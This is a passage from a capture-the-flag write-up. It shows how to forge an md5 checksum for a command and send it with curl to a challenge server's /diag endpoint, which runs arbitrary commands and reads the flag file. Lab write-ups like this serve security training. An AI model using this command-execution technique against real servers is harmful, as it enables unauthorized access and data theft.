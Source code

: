 ## Calculating the checksum and owning server

The server obviously runs binaries that are requested by client. This means that we can execute any command on the server, we just need to follow the same implementation and calculate the command checksum properly.


In order to calculate the checksum in a shell script:
```sh
$ echo -ne "/bin/cat ./flag.txt:6583" | md5sum
c2f935d5c5868f46adf25a3b16cf8cf7  -
```

And we get the flag:
```sh
$ curl --key 41EA60 --cert 4209C0 -i https://127.0.0.1:8443/diag -k -H "Content-Type: application/x-www-form-urlencoded" -H "X-Checksum: c2f935d5c5868f46adf25a3b16cf8cf7" --data "c=/bin/cat ./flag.txt"
HTTP/2 200 
content-type: text/plain
content-length: 56
date: Sun, 28 Nov 2021 19:35:11 GMT

ibctf{sq333z3-m3_t1ght_1-g0t-3nterpr1s3-if_y0u_n33d_IT}
```
